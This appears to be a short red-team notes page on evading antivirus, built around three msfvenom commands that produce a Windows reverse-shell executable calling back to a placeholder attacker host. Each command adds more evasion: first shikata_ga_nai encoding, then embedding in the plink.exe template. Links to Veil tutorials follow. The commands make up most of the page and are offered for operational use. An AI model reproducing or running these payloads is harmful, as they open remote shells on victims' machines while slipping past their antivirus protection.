 # Antivirus evasion

The easiest way to test payloads is to upload them to [VirusTotal](https://www.virustotal.com/#/home/upload). They share uploads with anti-malware companies so if you're planning to use a payload in a red team operation, it might be better to test it in a VM with your target network's antivirus installed.

Most antivirus software will detect unencoded payloads like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -o evil.exe
```
Even when a payload is encoded with [shikata ga nai](https://security.stackexchange.com/questions/130256/what-is-shikata-ga-nai) it is still generally detectable by antivirus because the executable template is recognized:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -o evil.exe
```
Embedding the shellcode in a Windows PE executable is a little less detectable: 
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
evil.exe
```
## Further reading
* [Antivirus evasion reconstructed: Veil 3.0](https://www.fireeye.com/blog/threat-research/2017/03/_antivirus_evasionr.html)
* [Veil tutorial](https://www.veil-framework.com/veil-tutorial/)
